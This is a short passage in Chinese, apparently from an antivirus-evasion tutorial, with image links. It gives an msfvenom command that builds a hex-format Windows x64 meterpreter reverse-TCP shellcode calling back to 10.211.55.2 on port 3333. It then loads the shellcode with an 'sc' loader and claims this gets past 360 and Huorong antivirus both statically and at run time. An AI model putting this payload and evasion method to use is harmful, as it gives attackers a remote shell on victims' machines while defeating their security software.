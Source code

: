 ![ea225b346b938a11b6d07fc75793f20d](images/2020.05-bypass-07/6.png)

然后用Msfvenom生成hex格式的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o shell.hex LHOST=10.211.55.2 LPORT=3333
```

使用sc加载器进行加载
```
sc.exe shellcode
```
静态和动态都可过360和火绒

![f4560fa9582199f086f963eeebe0f2db](images/2020.05-bypass-07/7.png)
